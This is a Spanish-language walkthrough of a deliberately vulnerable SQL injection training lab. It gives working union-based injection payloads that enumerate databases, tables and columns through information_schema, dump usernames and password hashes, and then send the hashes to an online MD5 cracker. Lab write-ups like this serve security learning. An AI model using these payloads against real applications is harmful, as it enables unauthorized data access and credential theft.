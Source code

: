 # Jugando con SQLI Training

## Register lvl 1

En este panel la base de datos actual posee **5 columnas**, ya que lo descubrimos mediante fuzzing con **order by 5** por lo tanto colocamos un dato para cada una tal que así

![[SQLI TRAINING 5 COLUMNAS.png]]

--------

El 1 no aparece porque debe estar por otro lado, pero con que nos aparezcan los demás ya estamos bien porque podemos reemplazar esos valores por lo que nos interese (En nuestro caso usaremos el numero "2"), en este caso queremos **listar todas las bases de datos existentes** por lo tanto haríamos lo siguiente. ``1234' union select 1,2,schema_name,4,5 from information_schema.schemata-- -``
![[SQLI TRAINING BASES DE DATOS.png]]

----------------

Ahora que sabemos el nombre de las bases de datos debemos **listar los nombres de las tablas** con la siguiente sintaxis. ``1234' union select 1,table_name,3,4,5 from information_schema.tables where table_schema = 'sqlitraining'-- -``
![[SQLI TRAINING TABLAS.png]]

-------

Ahora como nos parece jugosa la tabla users la vamos a observar con la siguiente sintaxis. ``1234' union select 1,column_name,2,3,4,5 from information_schema.columns where table_schema = 'sqlitraining' and table_name = 'users'``
![[SQLI TRAINING COLUMNAS ID, USERNAME Y PASSWORD.png]]

--------

Una vez conseguimos el nombre de las columnas, solo precisamos nombrarlas y adjuntarles a un lado el nombre de la base de datos seguido de un punto con el nombre de la tabla correspondiente tal que así.

``1234' union select 1,group_concat(username,0x3a,password),3,4,5 from sqlitraining.users-- -`` Esto se vera **todo en una linea y quedará muy feo**, por lo tanto podemos hacer lo siguiente aprovechando la columna "3"

``1234' union select 1,username,password,4,5 from sqlitraining.users-- -`` Esto quedaría tal que así
![[SQLI TRAINING DATOS DE LAS COLUMNAS.png]]

------

Las contraseñas están hasheadas con **md5** por lo que se ve, por lo tanto usaremos un cracker web como lo es https://hashes.com/es/decrypt/hash

![[SQLI TRAINING Contraseñas.png]]